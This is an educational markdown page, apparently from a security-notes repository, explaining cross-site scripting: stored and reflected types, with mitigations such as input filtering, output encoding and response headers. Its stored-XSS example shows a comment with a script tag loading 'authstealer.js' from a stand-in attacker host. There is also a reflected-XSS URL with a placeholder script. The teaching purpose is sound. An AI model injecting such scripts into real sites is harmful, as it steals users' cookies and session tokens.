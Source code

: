 ## XSS (Cross Site Scripting)

XSS attacks are a type of injection in which malicious scripts are injected into benign/trusted websites. Occurs when an attacker uses a vulnerable web application to send malicious code, generally in the form of browser side script, to end users. This can happen anywhere when a web application uses input within the output it generates without validating or encoding it.

Browsers have no way to know that the script should not be trusted and hence, will execute script. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. Allows the attacker to carry out any actions the user is able to perform.

<img src="../assets/XSS.png">

## XSS Types

### Stored (Persistent)

Stored XSS occurs when a malicious script is injected directly into a vulnerable web application and permanently stored. Most frequent targets are websites that allow users to share content/comments/messages (blogs, videos, social networks). Each time the infected page is viewed, the malicious script is transmitted to the victim's browser.

For instance, if an e-commerce website allows users to embed HTML in the comments section, the embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code everytime the page is opened.

```
Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.
```

### Reflected

Reflected XSS are those where the injected script is reflected off the web server, such as in an error message, search results, or other response that includes some or all of the input sent to the server as part of the request. Attacks are delivered to victims via another route, such as an email message or malicious link. The injected code travels to the vulnerable website, which reflects the attack back to the user's browser.

```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>

https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```

## Prevention/Mitigation

### Filter input on arrival

At the point where user input is received, filter as strictly as possible based on what is expected or valid input.

### Encode data on output

If user-controlled data is output in HTTP responses, encode the output to prevent it from being interpreted as active content.

### Use appropriate response headers

To prevent XSS in HTTP responses that are not intended to contain HTML/JS, can use Content-Type and X-Content-Type-Options headers to ensure browsers interpret responses correctly.
